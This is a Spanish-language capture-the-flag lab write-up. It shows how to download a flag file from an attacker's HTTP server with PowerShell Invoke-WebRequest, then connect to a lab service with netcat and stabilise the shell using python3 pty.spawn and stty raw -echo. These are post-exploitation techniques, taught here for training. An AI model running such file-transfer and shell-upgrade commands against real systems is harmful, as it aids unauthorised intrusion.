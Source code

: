 **3.  Para PowerShell versión 3 y superior, que está presente de forma predeterminada en Windows 8.1 y Windows 10, se agregó el cmdlet \[Invoke-WebRequest .](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) Intente utilizarlo para realizar solicitudes de carga y descarga en su máquina Kali.**

Podemos también utilizar el módulo "Invoke-WebRequest" para desargar archivos de un servidor HTTP:

```
powershell "Invoke-WebRequest -Uri http://192.168.127.132:8000/flag.txt -OutFile flag.txt"

C:\Users\aeoae\Desktop>powershell "Invoke-WebRequest -Uri http://192.168.127.132:8000/flag.txt -OutFile flag.txt"; type flag.txt
powershell "Invoke-WebRequest -Uri http://192.168.127.132:8000/flag.txt -OutFile flag.txt"; type flag.txt
Congrats you have the flag
```

<br />

**5. Al igual que los humanos, nuestro programa operativo de disco y forma de vida genética *GLaDOP* se nutre de la interacción social. Puede encontrar este programa en la VM n.º 1 de destino en el puerto 5000. Una vez obtenido un shell interactivo completo, desde la carpeta /challenge , inicie el programa GLaDOP para resolver este desafío y obtener la bandera. NOTA: un binario python3 está disponible en la máquina de destino.**

Lo que se nos está pidiendo es que nos conectemos a un servicio que simula una reverse shell y consigamos estabilizar la shell que se nos ofrece en dicho servicio:

```
> nc -nv 192.168.217.52 5000
(UNKNOWN) [192.168.217.52] 5000 (?) open
whoami
student
```

Vemos que tenemos python3 instalado:

```
python3 --version
Python 3.8.10
```

De esta forma, podemos spawnear con el modulo de python 'pty' una shell y luego llevar a cabo una importancion de terminos especiales para estabilizar la shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
student@d817267aabbe:/challenge$ export term=xterm
export term=xterm
student@d817267aabbe:/challenge$
```

Ahora dejamos nuestro proceso suspendido (que no terminado) con Ctrl + Z y escribimos:

```
> stty raw -echo; fg
[1]  + continued  nc -nv 192.168.217.52 5000
                                            ls
GLaDOP  start.sh
student@d817267aabbe:/challenge$ 
```
